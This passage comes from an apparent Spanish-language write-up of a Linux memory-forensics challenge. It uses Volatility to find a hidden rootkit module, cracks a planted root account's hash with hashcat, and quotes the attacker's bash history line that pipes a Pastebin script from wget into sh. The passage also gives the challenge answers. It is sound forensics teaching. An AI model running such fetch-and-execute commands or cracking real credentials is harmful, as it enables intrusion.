 Y como podemos observar, el penúltimo es justo el que buscamos:

```js
❯ cat ./92931307-c5fd-4804-94f2-a8287e677bd6/etc/passwd
<SNIP!>
werni:x:1000:1000:werni,,,:/home/werni:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
jm:$1$jm$poAH2RyJp8ZllyUvIkxxd0:0:0:root:/root:/bin/bash
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

Este hash podemos romperlo con el módulo `500` de `hashcat`:

```JS
❯ hashcat -m 500 has /usr/share/wordlists/rockyou.txt
<SNIP!>
$1$jm$poAH2RyJp8ZllyUvIkxxd0:WATSON0
```

Conteniendo así la contraseña: `J3: WATSON0`

### J4: The attacker downloaded and executed code from Pastebin to install a rootkit. What is the full path of the malicious file? (/path/filename.ext)

La descarga podemos confirmarla con el historial de bash justo en la linea:

```js
22714   bash    2025-09-03 08:18:40.000000 UTC  wget -q -O- https://pastebin.com/raw/hPEBtinX|sh
```

Pero no tenemos la localización pues fue ejecutada en memoria; el método más común es tirar de `linux.malfind.Malfind` pero a veces suele funcionar (en este caso no tanto), pero tenemos más alternativas como buscar módulos ocultos con `linux.hidden_modules.Hidden_modules`:

```js
❯ vol.py -f memdump.mem linux.hidden_modules.Hidden_modules
<SNIP!>
0xffffc0aa0040	Nullincrevenge	0x4000	OOT_MODULE,UNSIGNED_MODULE		N/A
```

Y con este nombre `Nullicrevenge` podemos buscarlo dentro de los archivos dumpeados:

```js
❯ find . -name "*Nullincrevenge*"
./92931307-c5fd-4804-94f2-a8287e677bd6/usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko
```

Indicando el rootkit contenido en: `J4: /usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko`

### J5: What is the email account of the alleged author of the malicious file? (user@example.com)

Para buscar la respuesta, podemos tirar de strings y un less:

```js
❯ strings ./92931307-c5fd-4804-94f2-a8287e677bd6/usr/lib/modules/5.10.0-35-amd64/kernel/lib/Nullincrevenge.ko | less
<SNIP!>
description=NULLINC REVENGE IS COMING...
license=GPL
author=i-am-the@network.now
depends=
<SNIP!>
```
